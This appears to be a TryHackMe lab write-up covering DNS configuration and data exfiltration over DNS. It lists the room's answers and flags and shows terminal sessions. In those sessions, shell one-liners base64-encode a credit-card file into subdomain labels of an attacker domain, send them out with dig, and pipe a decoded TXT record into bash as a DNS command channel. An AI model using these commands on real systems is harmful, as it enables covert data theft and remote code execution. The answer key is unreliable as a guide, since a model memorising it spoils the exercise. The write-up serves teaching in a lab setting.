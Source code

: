 ## Task 8  DNS Configurations
+ Once the DNS configuration works fine, resolve the flag.thm.com  domain name. What is the IP address?`172.20.0.120`

## Task 9  Exfiltration over DNS
+ What is the maximum length for the subdomain name (label)?`63`
+ The Fully Qualified FQDN domain name must not exceed ______ characters.`255`
+ Execute the C2 communication over the DNS protocol of the flag.tunnel.com. What is the flag?`THM{C-tw0-C0mmun1c4t10ns-0v3r-DN5}`


+ SSH to jumpbox and hop to `attacker.thm.com` on attacker tcpdump over DNS (udp port 53)
```bash
thm@attacker:~$ sudo tcpdump -i eth0 udp port 53
[sudo] password for thm: 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
```
```bash
thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
TmFtZTogVEhNLXVzZX.att.tunnel.com
IKQWRkcmVzczogMTIz.att.tunnel.com
NCBJbnRlcm5ldCwgVE.att.tunnel.com
hNCkNyZWRpdCBDYXJk.att.tunnel.com
OiAxMjM0LTEyMzQtMT.att.tunnel.com
IzNC0xMjM0CkV4cGly.att.tunnel.com
ZTogMDUvMDUvMjAyMg.att.tunnel.com
pDb2RlOiAxMzM3Cg==.att.tunnel.com

thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash

```

```bash
12:41:51.241520 IP 172.20.0.1.47864 > attacker.domain: 12148% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
12:41:51.242153 IP attacker.60874 > 172.20.0.1.domain: 26088+ PTR? 1.0.20.172.in-addr.arpa. (41)
12:41:51.242279 IP 172.20.0.1.45491 > attacker.domain: 55770% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
12:41:51.242783 IP 172.20.0.1.domain > attacker.60874: 26088 NXDomain* 0/1/0 (95)

thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337


thm@victim2:~$ dig +short -t TXT flag.tunnel.com | tr -d "\"" | base64 -d | bash
THM{C-tw0-C0mmun1c4t10ns-0v3r-DN5}

```
